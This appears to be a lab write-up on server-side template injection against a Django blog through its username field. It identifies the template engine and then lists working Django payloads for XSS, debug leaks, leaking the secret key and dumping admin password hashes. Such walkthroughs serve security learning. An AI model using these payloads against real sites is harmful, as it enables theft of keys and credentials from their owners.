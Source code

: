 # Server Side Template Injection

### 1. Detection


Observe the [Setting Page](https://blog-vul.herokuapp.com/setting/), you can see that username is a dynamic content and displayed __Hi, Username__.

![Web page display username](https://user-images.githubusercontent.com/83699106/132437761-05b5e2dc-98e0-4c50-8cb2-7e9e0c9c33b1.png)



Register an account.You will be realized that it don't control the username format and this web use Django framwork. So you can register an account with an special username.


### 2. Exploitation


#### Step 1.  Identify the underlying engine.

Python has some template engine such as Tornaldo, Jinja, Django, ... . Now , sign up an account with username is a formula evaluation. 

`{{ 7 * 7 }}`

But it doesn't work. 
![image](https://user-images.githubusercontent.com/83699106/132441238-1b673cff-9fd0-4fd6-b0c1-d11cb83bec05.png)


Maybe it use Django template because DJT do not allow formula evaluation by default. Trying another payload.

`{% debug %}`

![image](https://user-images.githubusercontent.com/83699106/132442170-d95e57e5-9147-4592-bc53-ef614f8ca80d.png)


__Successfully__, It displayed debug content in username. 



After indentify the template engine that it's using is DJT. We can exploit futher. The impact of this attack in DJT is not serious than other template languages and these are some payload you can use to exploit.

__Cross-site scripting__
```
{{ '<script>alert(3)</script>' }}
{{ '<script>alert(3)</script>' | safe }}

```

__Debug information leak__
```

{% debug %}

```

__Leaking app’s Secret Key__
```
{{ messages.storages.0.signer.key }}

```
__Admin username and password hash leak__
```
{% load log %}{% get_admin_log 10 as log %}{% for e in log %}
{{e.user.get_username}} : {{e.user.password}}{% endfor %}

```

To clear understand about SSTI attack and Ways to exploit Django template above. You can see [here](https://lifars.com/wp-content/uploads/2021/06/Django-Templates-Server-Side-Template-Injection-v1.0.pdf)
           
        
